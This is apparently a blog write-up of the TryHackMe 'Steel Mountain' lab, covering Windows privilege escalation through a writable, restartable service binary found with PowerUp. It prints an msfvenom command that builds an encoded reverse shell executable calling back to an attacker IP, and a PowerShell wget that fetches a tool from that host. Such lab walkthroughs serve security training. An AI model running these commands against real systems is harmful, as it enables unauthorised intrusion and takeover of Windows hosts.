 ```yaml
---
title: TryHackMe - Steel Mountain
date: 2023-09-03 11:11:11 -001
categories: [TryHackMe, THM]
tags: [thm, steel mountain]
---
```



# Steel Mountain

Rejetto File Server 

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

> PowerUp Script - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

to upload script

![image info](../images/upload.png)

* To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell *



Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

```powershell

PS > . .\PowerUp.ps1  
PS > Invoke-AllChecks

```

![](../images/powerup.png)
Output of Invoke-AllChecks has options

Check for service which has option **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Sample Output Below

```powershell

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                     : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

> Notice CanRestart set to True in above sample

### msfvenom

Now we can use msfvenom to generate a reverse shell as an Windows executable.

``` bash

> msfvenom -p windows/shell_reverse_tcp LHOST=10.4.43.77 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
```


![](../images/cmd_to_query_service.png)

![](../images/cmd_to_stop_servcie.png)

![](../images/cmd_to_copy_and_start_service.png)


Run 

```python -m http.server 80```

andthen use this to transfer file

```powershell -c wget "http://10.4.43.77/winPEASx86.exe" -outfile "winPEASx86.exe"```

